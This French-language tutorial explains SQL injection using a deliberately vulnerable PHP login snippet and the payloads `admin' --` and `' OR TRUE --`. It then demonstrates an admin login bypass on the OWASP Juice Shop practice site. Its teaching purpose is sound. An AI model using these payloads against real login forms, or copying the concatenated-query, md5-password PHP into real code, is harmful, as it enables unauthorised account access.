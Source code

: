 # 2. Injection SQL

## En quoi consiste cette attaque ?

Comme son nom l'indique, elle consiste à injecter du code SQL dans une requête.

## Un exemple de code vulnérable en PHP

```php
$link = // ...

$username = $_POST["username"];
$password = $_POST["password"];

$sql = "SELECT id, username FROM users WHERE username = '$username' AND password = md5('$password')";
$result = mysqli_query($link, $sql);

if (mysqli_num_rows($result) > 0) {
    session_start();
    $_SESSION["loggedin"] = true;
}

mysqli_close($link);
```

Ici, on peut facilement se connecter sur n'importe quel compte en injectant du code SQL dans la variable `username`.

La première idée qui peut venir en tête est quelque chose du style `admin' --`. On récupère l'entrée avec le nom
d'utilisateur `admin` et on met en commentaire le reste du code SQL en utilisant `--` pour supprimer la vérification du mot de passe.

Ainsi, la requête SQL exécutée sera `SELECT id, username FROM users WHERE username = 'admin'`.

## Démonstration avec OWASP Juice Shop

> On se servira de ce site internet pour notre démonstration, <https://demo.owasp-juice.shop/#/login>.

Nous voici en face d'une page de login, où l'on doit s'identifier.

Pour ce faire, nous allons faire un peu la même chose que dans la section [précédente](#un-exemple-de-code-vulnérable-en-php).

### Inspection

Premièrement, nous allons ouvrir les outils de développeur de notre navigateur et inspecter les requêtes
qui sont émises pour s'authentifier. On va donc entrer un identifiant/mot de passe quelconque pour inspecter la requête.

On peut constater une requête POST vers `https://demo.owasp-juice.shop/rest/user/login`
avec le payload suivant:

```json
{
    "email": "test@example.org",
    "password": "12345678"
}
```

La réponse donne: `Invalid email or password.`

### Injection SQL

On peut tester si il y a une vulnérabilité SQL en tentant de faire une requête en mettant un `'` ou `"`
dans l'`email`.

Lorsque l'on fait une requête avec l'email: `'`, on obtient une réponse différente:

```json
{
    "error": {
        "message": "SQLITE_ERROR: unrecognized token: \"25d55ad283aa400af464c76d713c07ad\"",
        "stack": "Error....",
        "name": "SequelizeDatabaseError",
        "parent": {
            "errno": 1,
            "code": "SQLITE_ERROR",
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = '25d55ad283aa400af464c76d713c07ad' AND deletedAt IS NULL"
        },
        "original": {
            "errno": 1,
            "code": "SQLITE_ERROR",
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = '25d55ad283aa400af464c76d713c07ad' AND deletedAt IS NULL"
        },
        "sql": "SELECT * FROM Users WHERE email = ''' AND password = '25d55ad283aa400af464c76d713c07ad' AND deletedAt IS NULL",
        "parameters": {}
    }
}
```

Comme nous pouvons le voir, nous venons de créer une erreur dans la requête SQL. Ainsi,
nous savons maintenant que cette application est vulnérable à l'injection SQL.

Vu que l'on peut avoir la requête SQL complète dans l'erreur, on peut facilement
créer une injection qui nous permet de nous authentifier: `' OR TRUE --`

Ici, on utilise `'` pour sortir de la condition de l'email et on ajoute `OR TRUE` qui permet de
rendre la condition toujours vraie.

`--` est utilisé pour mettre en commentaire le reste de la requête SQL, ainsi la condition
finale dans le `WHERE` sera `email = '' OR TRUE` qui est donc toujours vrai.

### Avec quel compte sommes nous identifié ?

On peut retourner dans le menu et voir que nous sommes identifié, par chance, sur le compte administrateur !
